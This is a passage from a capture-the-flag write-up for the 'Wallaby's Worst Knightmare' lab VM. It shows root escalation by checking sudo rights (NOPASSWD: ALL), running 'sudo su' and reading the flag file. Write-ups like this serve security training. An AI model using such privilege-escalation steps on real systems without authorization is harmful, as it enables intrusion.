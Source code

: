 ## Root - Via SUDO
1. Check wallaby's sudo access
	``` 
	$ sudo -l
	sudo -l
	Matching Defaults entries for wallaby on ubuntu:
		env_reset, mail_badpass,
		secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User wallaby may run the following commands on ubuntu:
		(ALL) NOPASSWD: ALL
	```
2. Exploit 
	``` 
	$ sudo su
	sudo su
	root@ubuntu:/home/wallaby# whoami
	whoami
	root
	root@ubuntu:/home/wallaby# 
	```
3. Flag
	``` 
	root@ubuntu:~# cat flag.txt
	cat flag.txt
	###CONGRATULATIONS###

	You beat part 1 of 2 in the "Wallaby's Worst Knightmare" series of vms!!!!

	This was my first vulnerable machine/CTF ever!  I hope you guys enjoyed playing it as much as I enjoyed making it!

	Come to IRC and contact me if you find any errors or interesting ways to root, I'd love to hear about it.

	Thanks guys!
	-Waldo
	root@ubuntu:~# 
	```
